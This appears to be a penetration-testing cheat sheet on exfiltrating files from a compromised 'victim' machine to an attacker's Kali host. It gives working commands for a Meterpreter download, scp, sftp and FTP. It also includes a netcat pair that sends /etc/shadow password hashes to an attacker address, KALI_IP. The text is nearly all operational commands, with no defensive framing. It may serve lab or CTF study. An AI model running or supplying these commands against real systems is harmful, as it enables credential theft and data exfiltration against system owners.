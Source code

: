 There are several methods depending on the access you've gained on the victim's machine:

#### Meterpreter (Metasploit)
If you have a **Meterpreter session** on the victim machine:
```
download /path/to/victim/file /path/to/local/destination
```

#### `scp` (Secure Copy)
If you have ***SSH access*** to the victim machine:

**Attacker's Machine**
```
scp username@victim_ip:/path/to/file /path/kali/destination
```

#### `nc` (Netcat)
If neither **SSH** or **Meterpreter** is ***available***, you can use **Netcat** to transfer files. You need to have `nc` ***installed and running on both machine***:

**Attacker's Machine**
```
nc -nvlp 4444 > shadow
```

**Victim's Machine**
```
nc KALI_IP 4444 < /etc/shadow
```

#### FTP or SFTP
If the victim machine has FTP or SFTP access, you can use these protocols to transfer files:

**FTP (Less Secure)**
```
1 Start an FTP server on Kali (using `vsftpd` or `pure-ftpd`).
2 Use the `ftp` command on the victim machine to connect and upload the file.
```

**SFTP**
If you have ***SSH access***, use `sftp` to transfer files:
```
sftp username@victim_ip:/path/to/file /path/to/local/destination
```


